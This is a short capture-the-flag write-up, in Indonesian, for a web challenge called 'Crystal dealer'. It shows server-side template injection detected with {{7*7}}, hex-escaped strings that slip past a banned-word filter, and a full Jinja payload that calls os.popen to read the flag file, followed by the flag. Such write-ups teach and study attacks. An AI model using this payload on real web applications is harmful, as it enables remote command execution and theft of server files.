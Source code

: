 # Crystal dealer

Description:

A: "who the h3ll are you?"

B: "you all know exactly who i am"

Author: Abdieryy

## How to Solve

Diberikan sebuah source code seperti ini

![solve1](images/solve1.jpg)

Disitu terdapat sebuah kata yang terlarang untuk melakukan submit pada form

Namun jika dicoba memasukan `{{7*7}}`, maka SSTI akan terjadi

![solve2](images/solve2.jpg)

Untuk mengatasi hal tersebut kita perlu melakukan bypass kata terlarang dengan [hex](https://www.freecodecamp.org/news/ascii-table-hex-to-ascii-value-character-code-chart-2/)

```
a = \x61
b = \x62
application = \x61\x70\x70\x6c\x69c\x61\x74\x69\x6f\x6e
```

Dengan mengambil referensi payload dari [PayloadBox](https://github.com/payloadbox/ssti-payloads)

Maka kita dapat membuat payload seperti ini

```
{{request|attr('\x61\x70\x70\x6c\x69c\x61\x74\x69\x6f\x6e')|attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f')('os')|attr('\x70\x6f\x70\x65\x6e')('\x63at\x20\x66lag\x5fh31s3NB3rG.txt')|attr('\x72\x65\x61\x64')()}}
```

![solve3](images/solve3.jpg)

```
ARA5{You've_5H0Uldd__W4Tch_th3_S3riE5_NOW!_0x756af8}
```